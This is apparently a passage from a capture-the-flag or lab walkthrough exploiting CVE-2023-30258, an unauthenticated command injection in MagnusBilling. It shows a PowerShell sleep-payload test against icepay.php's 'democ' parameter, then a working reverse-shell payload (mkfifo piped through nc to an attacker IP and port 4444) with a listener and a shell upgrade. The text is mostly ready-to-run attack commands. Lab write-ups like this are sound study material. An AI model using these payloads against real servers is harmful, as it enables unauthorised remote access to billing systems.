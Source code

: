 **Result:**
- **CVE-2023-30258** — *Unauthenticated Command Injection* vulnerability in MagnusBilling versions 6.x and 7.x.

✅ This vulnerability is **exactly** what we need to exploit!

---

# 🎯 3. Discovery of Command Injection

Testing if the application is vulnerable to command injection by sending a sleep payload:

```powershell
$start = Get-Date
Invoke-WebRequest -Uri "http://<TARGET-IP>/mbilling/lib/icepay/icepay.php?democ=;sleep+2;" -UseBasicParsing > $null
$end = Get-Date
Write-Host "Sleep 2 duration: $($end - $start)"
```

**Result:**
- Noticeable time delay ✅ confirming the injection point!


---

# 🔥 4. Gaining a Reverse Shell

Setting up a reverse shell using the confirmed injection vulnerability.

```powershell
$ip = "YOUR-IP"
$port = 4444
$payload = ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ip $port >/tmp/f;"
$encoded = [System.Web.HttpUtility]::UrlEncode($payload)
Invoke-WebRequest -Uri "http://<TARGET-IP>/mbilling/lib/icepay/icepay.php?democ=$encoded" -UseBasicParsing
```

**Listener:**
```powershell
ncat.exe -lvnp 4444
```

Result: **Reverse shell acquired** as low-privileged user.

To improve shell run

```powershell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$
```

---